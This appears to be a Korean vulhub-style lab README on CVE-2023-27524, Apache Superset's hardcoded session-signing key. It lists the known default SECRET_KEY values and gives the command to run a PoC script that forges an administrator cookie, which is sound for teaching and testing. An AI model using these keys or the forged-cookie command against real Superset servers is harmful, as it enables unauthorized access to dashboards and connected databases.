


# Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
> 화이트햇 스쿨 3기 23반 노은서 [Github 링크](https://github.com/nes1049/whitehat-school-vulhub/tree/main/superset/CVE-2023-27524)

[영문 버전](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) [중문 버전](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.zh-cn.md) 

<br/>

## 개요

- 데이터 시각화 오픈소스 플랫폼인 Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 존재
- Superset은 세션 쿠키를 서명하는 데 사용되는 SECRET_KEY 값을 기본값으로 제공함
- 관리자가 이 기본 키를 변경하지 않으면 공격자는 유효한 세션 쿠키를 위조하고 임의의 사용자 또는 관리자 권한을 가진 사용자로 인증할 수 있음
- 이를 통해 공격자는 Superset 대시보드, 연결된 데이터베이스에 무단으로 접근할 수 있음
- Python pickle 취약점인 [CVE-2023-27941](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) 과 결합되면 인증 우회 후 역직렬화 취약점을 통해 원격 코드 실행까지 가능

<br/>

## 환경 구성

명령어를 사용해 Apache Superset 2.0.1 서버를 시작

```
docker compose up -d
```

- 서버를 열면, `http://your-ip:8088`를 통해 Superset 서버에 접속 가능
- default 로그인: admin / vulhub 

<br/>

## PoC

Superset은 다음과 같은 `SECRET_KEY` 값 중 하나를 기본값으로 하드코딩해 사용함으로써 취약점 발생 원인을 제공함:

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (version < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (version >= 1.4.1)
- `thisISaSECRET_1234` (deployment template)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY` (documentation)
- `TEST_NON_DEV_SECRET` (docker compose)

<br/>

다음 명령어로 [CVE-2023-27524.py](CVE-2023-27524.py)를 실행해 관리자의 세션(user_id=1)으로 위조된 쿠키를 생성

```bash
# 의존성 패키지 설치치
pip install -r requirements.txt

# user_id=1인 세션 쿠키 생성
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

- 이 스크립트는 알려진 디폴트 SECRET_KEY 값들을 이용해 세션 쿠키의 크랙을 시도함
- 크랙에 성공하면, user_id=1(일반적으로 관리자)인 새로운 세션 쿠키를 생성해 로그인 인증

<br/>
<br/>



이 JWT 토큰을 GET 메소드의 HTTP 헤더에 넣으면 `Cookie: session=eyJ...`, Superset 서버의 backend endpoint (데이터베이스)에 접근이 가능

<br/>



<br/>

## 참고 문헌

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

